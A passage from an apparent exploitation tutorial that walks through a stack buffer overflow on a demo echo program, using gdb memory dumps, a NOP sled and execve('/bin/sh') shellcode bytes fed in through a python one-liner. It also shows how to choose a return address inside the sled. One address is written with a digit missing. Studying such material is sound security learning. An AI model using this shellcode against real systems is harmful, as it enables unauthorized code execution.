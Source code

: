 We will now examine the dump of the hex code with the command `x/100x $rsp-200` which dumps 100*4 bytes from memory location $rsp -200 bytes.

```bash
(gdb) x/100x $rsp-200
0x7fffffffe228:	0x00400450	0x00000000	0xffffe3e0	0x00007fff
0x7fffffffe238:	0x00400561	0x00000000	0xf7dce8c0	0x00007fff
0x7fffffffe248:	0xffffe64d	0x00007fff	0x41414141	0x41414141 <--- start of the buffer
0x7fffffffe258:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe268:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe278:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe288:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe298:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe2a8:	0x41414141	0x41414141	0x41414141	0x48583b6a <--- start of the shellcode
0x7fffffffe2b8:	0xb849d231	0x69622f2f	0x68732f6e	0x08e8c149
0x7fffffffe2c8:	0x89485041	0x485752e7	0x050fe689	0x48583c6a
0x7fffffffe2d8:	0x050fff31	0x41414141	0x41414141	0x41414141
0x7fffffffe2e8:	0x42424242	0x00004242	0xffffe3e8	0x00007fff
```

We see all the 41 that we filled the buffer with. And then we see our shell code.

To calculate the exact address where the shell code starts,  you first  take the memory address on the left on the same line : 0x7fffffffe2a8. This is the address of the first column on this line (filed with 41 at the moment). And then you add 4 bytes per column. Our shell code is 3 columns further so you need to add 3*4= 12 bytes to that address.

In hex 12 is 0xC, you need to do 0x7fffffffe2a + 0xC = 0x7fffffffe2b4

We now got the exact address where the shell code start in the buffer, so we could override the return address with it and it should work.  But sometimes memory shift a bit, from one execution to another the address might change. That's why we use NOPs

## NOPs

Instead of filling the junk before the shell code with 'A'  we fill it with NOPs (\x90).

The NOPs are instructions to do nothing, they will be skipped. It means that now, you don't need to get the exact address where your shell code start but any address in the NOPS, the program will skip all the NOPS and execute your shell code. That way if the memory shift a bit, your exploit will still work.

Let's replace the 'A's with NOPs and dump our hex again.

```bash
(gdb) run $(python -c "print '\x90'*100+'\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + 'B'*6")

Here's a program that echo's out your input
����������������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAAAAAABBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()

(gdb) x/100x $rsp-200
0x7fffffffe228:	0x00400450	0x00000000	0xffffe3e0	0x00007fff
0x7fffffffe238:	0x00400561	0x00000000	0xf7dce8c0	0x00007fff
0x7fffffffe248:	0xffffe64d	0x00007fff	0x90909090	0x90909090 <----- Nops start here
0x7fffffffe258:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe268:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe278:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe288:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe298:	0x90909090	0x90909090	0x90909090	0x90909090 <----- The address I pick
0x7fffffffe2a8:	0x90909090	0x90909090	0x90909090	0x48583b6a <----- shellcode
0x7fffffffe2b8:	0xb849d231	0x69622f2f	0x68732f6e	0x08e8c149
0x7fffffffe2c8:	0x89485041	0x485752e7	0x050fe689	0x48583c6a
```